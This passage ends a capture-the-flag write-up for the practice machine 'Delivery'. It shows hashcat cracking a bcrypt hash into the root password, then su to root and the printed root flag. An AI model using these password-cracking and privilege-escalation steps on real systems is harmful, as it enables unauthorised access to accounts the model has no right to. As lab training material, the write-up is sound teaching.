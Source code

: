 ```console
* Bytes.....: 17
* Keyspace..: 77
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =>

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Sat Feb 13 01:52:59 2021 (1 min, 12 secs)
Time.Estimated...: Sat Feb 13 01:54:11 2021 (0 secs)
Guess.Base.......: File (pleasesub)
Guess.Mod........: Rules (rules)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:        0 H/s (2.92ms) @ Accel:1 Loops:1 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#2...: Salt:0 Amplifier:20-21 Iteration:1023-1024
Candidates.#2....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Sat Feb 13 01:52:54 2021
Stopped: Sat Feb 13 01:54:11 2021
DHSs-MacBook-Pro:delivery dhs$ 
```

So, we have cracked the root pass **PleaseSubscribe!21**

Now let's pwn the box and get the root flag

```console
maildeliverer@Delivery:~$ su -
Password: 
root@Delivery:~# cat /root/root.txt 
1c2e474a9cc0a95ac650a814bcd27fee
root@Delivery:~# 
```
So, that's it. Thank you who have read this far.
